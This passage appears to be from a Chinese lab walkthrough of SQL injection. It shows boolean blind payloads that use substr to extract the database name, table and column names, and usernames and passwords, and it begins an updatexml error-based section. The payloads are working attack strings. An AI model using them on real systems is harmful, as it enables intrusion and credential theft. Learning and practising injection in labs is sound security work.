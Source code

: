> **猜解过程**：
> 
> 1. 第1个字符：从ASCII码范围（通常测试`a-z`、`0-9`、`_`）逐一尝试，直到页面正常。
> 
> 2. 第2个字符：修改为`substr(database(),2,1)`，重复上述过程。
> 
> 3. 重复至第8个字符（`substr(database(),8,1)`）。
> 
> 4. ASCII码总结整理
> 
> 标准ASCII码.md

2. **获取表名**
- **猜解表的数量**：  
  `?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())=4 --+`→ 确认为4张表。

- **猜解表名长度**：  
  `?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 --+`→ 第一张表名长度为6。

- **逐字符猜解表名**：  
  `?id=1' and substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='e' --+`→ 第一张表的第1个字符为`e`。
  
  3. **获取列名**

- **猜解列的数量**：  
  `?id=1' and (select count(column_name) from information_schema.columns where table_name='users')=3 --+`→ 确认为3列。

- **逐字符猜解列名**：  
  `?id=1' and substr((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='i' --+`→ 第一列的第1个字符为`i`。
4. **提取数据（如用户名/密码）**
- **猜解第一条记录的username**：  
  `?id=1' and substr((select username from users limit 0,1),1,1)='D' --+`→ 用户名的第1个字符为`D`。

- **猜解对应密码**：  
  `?id=1' and substr((select password from users limit 0,1),1,1)='D' --+`→ 密码的第1个字符为`D`。

### **报错注入**

这一关使用报错注入好一些

#### 1.updatexml报错

- 数据库名称

```
?id=1' and updatexml(1,concat(0x7e,database(),0x7e),1)--+
```

![image-20250605113521255](https://image.3001.net/images/20250718/1752822063_6879f12f4a4c4f03d12d5.png!small)

- 数据表名称
